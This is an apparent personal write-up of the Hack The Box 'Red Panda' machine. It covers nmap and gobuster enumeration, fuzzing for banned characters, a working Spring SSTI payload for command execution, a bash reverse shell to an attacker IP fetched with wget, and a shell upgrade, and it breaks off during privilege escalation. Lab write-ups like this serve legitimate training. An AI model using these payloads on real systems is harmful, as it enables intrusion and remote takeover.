 # User
* `nmap -sV -sC 10.129.227.207`
```nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 20:33 EDT
Nmap scan report for 10.129.227.207
Host is up (0.015s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-title: Red Panda Search | Made with Spring Boot
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Wed, 26 Jun 2024 00:33:10 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
|     <head>
|     <meta charset="utf-8">
|     <meta author="wooden_k">
|     <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
|     <link rel="stylesheet" href="css/panda.css" type="text/css">
|     <link rel="stylesheet" href="css/main.css" type="text/css">
|     <title>Red Panda Search | Made with Spring Boot</title>
|     </head>
|     <body>
|     <div class='pande'>
|     <div class='ear left'></div>
|     <div class='ear right'></div>
|     <div class='whiskers left'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='whiskers right'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='face'>
|     <div class='eye
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Wed, 26 Jun 2024 00:33:10 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Wed, 26 Jun 2024 00:33:10 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-open-proxy: Proxy might be redirecting requests
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=6/25%Time=667B61C6%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,690,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;cha
SF:rset=UTF-8\r\nContent-Language:\x20en-US\r\nDate:\x20Wed,\x2026\x20Jun\
SF:x202024\x2000:33:10\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20
SF:html>\n<html\x20lang=\"en\"\x20dir=\"ltr\">\n\x20\x20<head>\n\x20\x20\x
SF:20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<meta\x20author=\"wo
SF:oden_k\">\n\x20\x20\x20\x20<!--Codepen\x20by\x20khr2003:\x20https://cod
SF:epen\.io/khr2003/pen/BGZdXw\x20-->\n\x20\x20\x20\x20<link\x20rel=\"styl
SF:esheet\"\x20href=\"css/panda\.css\"\x20type=\"text/css\">\n\x20\x20\x20
SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"css/main\.css\"\x20type=\"tex
SF:t/css\">\n\x20\x20\x20\x20<title>Red\x20Panda\x20Search\x20\|\x20Made\x
SF:20with\x20Spring\x20Boot</title>\n\x20\x20</head>\n\x20\x20<body>\n\n\x
SF:20\x20\x20\x20<div\x20class='pande'>\n\x20\x20\x20\x20\x20\x20<div\x20c
SF:lass='ear\x20left'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='ear\x
SF:20right'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='whiskers\x20lef
SF:t'>\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x2
SF:0\x20\x20\x20<div\x20class='whiskers\x20right'>\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x2
SF:0</div>\n\x20\x20\x20\x20\x20\x20<div\x20class='face'>\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20<div\x20class='eye")%r(HTTPOptions,75,"HTTP/1\.1\x2020
SF:0\x20\r\nAllow:\x20GET,HEAD,OPTIONS\r\nContent-Length:\x200\r\nDate:\x2
SF:0Wed,\x2026\x20Jun\x202024\x2000:33:10\x20GMT\r\nConnection:\x20close\r
SF:\n\r\n")%r(RTSPRequest,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20te
SF:xt/html;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20
SF:435\r\nDate:\x20Wed,\x2026\x20Jun\x202024\x2000:33:10\x20GMT\r\nConnect
SF:ion:\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><titl
SF:e>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style
SF:\x20type=\"text/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x2
SF:0h1,\x20h2,\x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h
SF:1\x20{font-size:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:1
SF:4px;}\x20p\x20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{he
SF:ight:1px;background-color:#525D76;border:none;}</style></head><body><h1
SF:>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></h
SF:tml>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.46 seconds
```
* navigating to the site brings you to a red panda search engine
![](Red%20Panda-paste.png)
* Browsing to `/robots.txt` reveals that this is a whitelabel page
* I decided to run a gobuster directory scan against the site to see what I could enumerate: 
```bash
gobuster dir -u http://10.129.227.207:8080 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
* The first can with a `200 OK` response is for `/stats`, so I browsed to it
![](Red%20Panda-paste-1.png)
* The page seems to be for viewer statistics for the authors of the site; one of which is the target user, woodenk
* clicking on woodenk, his stats page has the option to export a table:
![](Red%20Panda-paste-2.png)
* Exporting the table just allows you to see the site contents as an xml file
* I decided to repeat my steps again in burpsuite to see if anything hinky was occurring with the requests and responses
	* saw nothing suspicious with the either
* Looking at the search result for greg prints "Greg is a hacker. Watch out for his injection attacks!"
	* Going to go out on a limb and say this might be vulnerable to an injection attack
* My first thought was to try a sql injection, but that didn't make much sense since no sql database showed on the nmap scan and the table was an xml file
* My second guess was to try SSTI, using the `${7*7}` parameter
	* This resulted in "You searched for: Error occured: banned characters"
* While the result did not return 49 like I had hoped, I was able to narrow down that `$` is a banned character
* I wanted to see what else was a banned character, so I ran burp intruder fuzz against the search parameter:
![](Red%20Panda-paste-3.png)
* I used the wordlist `/usr/share/wfuzz/wordlist/injections` and set the payload processing to be url encoded
	* The following characters received the same error message:
		* `$`
		* `%`
		* `_`
* I still wanted to explore the ssti route, so my next step was to look for the template that was being used.
* Looking further into the whitelabel error page, I found that it is the default error page for a Spring Boot application
* With this information I started a `ctrl f` search for spring on [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---spring) and found the poc payload `*{7*7}`
	* Searching for this in the web app resulted in the output of 49; yippee!
* The next payload I tried was:
```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```
* This returned the uids and guids, proving that code execution had been achieved
* I did a ping test to ensure that I could reach my box: `ping -c 4 10.10.14.13`
	* That was a success, but no payloads seemed to work
* I decided to make my payload a `.sh` file and host it on a webserver so I could download it to the box:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.13/6969 0>&1
```
* After hosting it on a webserver I spun up, I used `wget` to download it to the website:
```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('wget http://10.10.14.13:8081/urmom.sh').getInputStream())}
```
* I checked if I had access to execute the payload and saw that I only had `rw` access
* I added execute perms and then ran the payload after setting up my listener
![](Red%20Panda-paste-4.png)
* From here I got the user flag. Yippee!

# Root
* I tried running `sudo -l`, but got the error `sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper`
* I had a feeling that was a result of my noninteractive shell, so I upgraded to an interactive shell:
```bash 
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
* I tried `sudo -l` again, but I needed a password to run that :/
* I looked at the running processes and saw that the site, and therefore my shell, was running off of a root cron job
	* Only problem is I have no clue how to exploit that